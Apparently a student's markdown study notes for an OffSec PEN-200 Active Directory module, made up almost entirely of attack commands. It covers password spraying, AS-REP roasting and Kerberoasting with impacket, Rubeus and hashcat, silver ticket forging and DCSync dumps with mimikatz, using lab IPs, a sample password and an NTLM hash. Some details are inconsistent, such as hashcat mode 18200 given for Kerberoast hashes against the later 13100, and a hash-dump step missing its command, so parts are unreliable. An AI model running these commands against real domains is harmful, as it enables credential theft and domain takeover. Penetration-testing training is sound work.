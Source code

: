 ##### General Notes

- Golden Ticket is a Ticket Granting Ticket (TGT) and completely forged offline (KRBTGT Account Hash needed).
- Silver Ticket is a forged service authentication ticket (Service Principal Name (SPN) and Machine Account Keys (Hash in RC4 or AES) needed). Silver Tickets do not touch the Domain Controller (DC).
- Diamond Ticket is essentially a Golden Ticket but requested from a Domain Controller (DC).
## AD Password Attacks

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")

#if valid, object will be created, if not we'll throw an error
```

*use /home/kali/password-spray.ps1 for this*
```
 .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
# or use -file and use a wordlist
```


#### SMB
```
crackmapexec smb 192.168.221.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

## AS-REP Roasting

###### From Kali:

```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
```
hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```



###### From Windows Target:


1. Put on target windows device

```
.\rubeus.exe asreproast
```
![[Pasted image 20231113194001.png]]
## Kerberoasting
use hashcat mode 18200 for TGS-REP hashes

###### From Windows:
If authenticated domain user, will show all SPNs linked with domain user
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
copy and paste output file to kali to hashcat

```
sudo hashcat -m 18200 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

###### From Kali:

From kali, kerberoast against DC ip address with domain user creds
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

*if impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use _ntpdate_[3](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/kerberoasting#fn3) or _rdate_[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/kerberoasting#fn4) to do so.



## Silver Tickets
In this section's example, we'll create a silver ticket to get access to an HTTP SPN resource. As we identified in the previous section, the _iis_service_ user account is mapped to an HTTP SPN. Therefore, the password hash of the user account is used to create service tickets for it. For the purposes of this example, let's assume we've identified that the _iis_service_ user has an established session on CLIENT75 (the box were on)


In general, we need to collect the following three pieces of information to create a silver ticket:

- SPN password hash
- Domain SID
- Target SPN

```
iwr -UseDefaultCredentials http://web04
```

```
#Get the Hash:
privilege::debug
exit

#Obtain Domain SID
whoami /user

#Get Target SPN
The last list item is the target SPN. For this example, we'll target the HTTP SPN resource on WEB04 (_HTTP/web04.corp.com:80_) because we want to access the web page running on IIS.

#Generate Silver Ticket,  on sid, leave of the RID (-1105 at very end)
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

```

Now this works:
```
iwr -UseDefaultCredentials http://web04
```
## Domain Controller Sync
to perform this attack, we need a user that is a member of _Domain Admins_, _Enterprise Admins_, or _Administrators_, because there are certain rights required to start the replication
```

.\mimikatz.exe

#who we want to get creds for, e.g. Dave
lsadump::dcsync /user:corp\dave

kali: hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

lsadump::dcsync /user:corp\Administrator


```


Kali method:
![[Pasted image 20231116185836.png]]
## Exercises To-Do

- [ ] 2.1.1 (page 20)

With username and password:
- [ ] crackmapexec smb 192.168.241.0/24 -u backupuser -p 'DonovanJadeKnight1' -d corp.com
- [ ] impacket-GetUserSPNs -request -dc-ip 192.168.241.70 corp.com/meg
- [ ] 